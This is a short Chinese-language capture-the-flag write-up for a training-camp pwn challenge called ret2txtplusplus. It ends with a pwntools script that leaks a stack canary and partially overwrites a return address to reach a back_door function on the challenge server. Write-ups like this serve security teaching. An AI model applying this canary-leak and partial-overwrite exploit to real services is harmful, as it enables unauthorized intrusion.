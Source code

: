 ```yaml
---
title: 赛博协会训练营 - ret2txtplusplus
date: 2023/9/16 12:00:00
tags:
    - noob
excerpt: 通过修改最后两个字节实现ret2txtplusplus的漏洞利用，成功跳转到back_door。
---
```


from cbctf starter 2023

## 文件分析

下载`ret2txtpp`, 保护全开  
ghidra分析为64位程序

## 解题思路

总体思路和上一题一致，但是加了pie，但我们又没法获取  
不过这次在vuln函数中运行，那么只要改掉最后2个字节就可以跳转到`back_door`（本来是跳转到main）  
~~如果rsp & 0xf != 0就没辙了~~

注意最后不能用sendline，因为会多填充一个\n导致地址错误  
查看pwntools源码，发现send后会flush，也可以结束读取

## EXPLOIT

```python
from pwn import *
sh = remote(???, 10015)
sh.sendline(b'0'*0x17 + b'.')
sh.recvuntil(b'.\n')
canary = u64(b'\0' + sh.recvline()[:7])
sh.send(b'0'*0x18 + p64(canary) + b'0'*8 + p16(0x08f4))
sh.interactive()
```

Done.
